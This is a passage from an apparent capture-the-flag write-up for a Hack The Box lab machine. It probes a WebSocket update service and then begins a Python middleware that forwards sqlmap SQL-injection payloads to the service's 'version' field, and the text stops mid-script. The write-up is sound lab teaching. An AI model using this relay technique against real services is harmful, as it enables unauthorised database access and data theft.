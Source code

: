Output:

```python
--- Message sent ---
  {"test": "test"}
++Sent raw: b'\x81\x90\xde[\x04G\xa5yp"\xad/&}\xfeyp"\xad/&:'
++Sent decoded: fin=1 opcode=1 data=b'{"test": "test"}'
++Rcv raw: b'\x81R{"paths": {"/update": "Check for updates", "/version": "Get version information"}}'
++Rcv decoded: fin=1 opcode=1 data=b'{"paths": {"/update": "Check for updates", "/version": "Get version information"}}'
Message received: {"paths": {"/update": "Check for updates", "/version": "Get version information"}}
```

Seeing this (`data=b'{"paths": {"/update": "Check for updates", "/version": "Get version information"}}'`), let's modify the script to see version and paths :

```python

def on_open(ws):
     print("Established connection")

     request = {"version": "1.0"}
     ws.send(json.dumps(request))

if __name__ == "__main__":
     websocket.enableTrace(True)
     ws = websocket.WebSocketApp("ws://10.10.11.206:5789/update", ...)
```

First we'll try `url/update` in case it tells us what the current version is. The output is the following:

```
data=b'{"message": "Version 0.0.2 is available to download!"}'
```

So now let's modify the `request = {"version": "1.0"}` to the current version: `request = {"version": "0.0.2"}` to see what it reports:

Output: `data=b'{"message": "You have the latest version installed!"}`

We will change the `url/update` to `url/version`, leaving the `request` with the newest version in case it reports information about the version:

Output: `Message received: {"message": {"id": 2, "version": "0.0.2", "released_date": "09/26/2022", "downloads": 720}}`

Seeing these answers, we are going to try to do some `sqli`, for this, we are going to set up an http server on port 80 (local) where we will use `sqlmap` to send `payloads`, the script is based on the script from [**ytnuobgub**](https://ytnuobgub.gitbook.io/htb/open-seasons-beta/socket). In short, what this script does is create a `middleware` server that allows sending `HTTP request` parameters (which `sqlmap` will send) to the `WebSocket` server and receiving the corresponding response.

```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import urlparse
from websocket import create_connection
import json, webbrowser

ws_server = "ws://10.10.11.206:5789/version"

def sendPayloads(payload):
    ws = create_connection(ws_server)
        
    request = {"version": payload}
    ws.send(json.dumps(request))
        
```